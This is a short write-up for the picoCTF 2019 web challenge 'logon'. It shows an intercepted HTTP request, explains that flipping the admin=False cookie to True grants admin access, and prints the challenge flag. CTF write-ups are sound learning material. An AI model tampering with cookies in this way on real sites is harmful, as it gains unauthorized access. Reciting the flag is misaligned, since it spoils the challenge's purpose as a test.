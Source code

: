 # logon
**Points:** 100

## Category
Web Exploitaion

## Task
The factory is hiding things from all of its users. Can you login as logon and find what they've been looking at? https://2019shell1.picoctf.com/problem/12284/ ([link](https://2019shell1.picoctf.com/problem/12284/)) or http://2019shell1.picoctf.com:12284

# Solution
Once again we begin with viewing the page source, but we couldn't find anything useful. So the next thing we try is to set a proxy using **Burp Suite** to check the cookies when we enter the username and password as 'okay' and 'bye' respectively.


```http
GET /flag HTTP/1.1
Host: 2019shell1.picoctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://2019shell1.picoctf.com/problem/12284/
Connection: close
Cookie: password=bye; username=okay; admin=False
Upgrade-Insecure-Requests: 1
```

In this, as we can make out, the 'admin status' has been set as ```False```, and when we change it to ```True``` and forward the cookie, it will display the flag.

# Flag
> picoCTF{th3_c0nsp1r4cy_l1v3s_6f2c20e9}
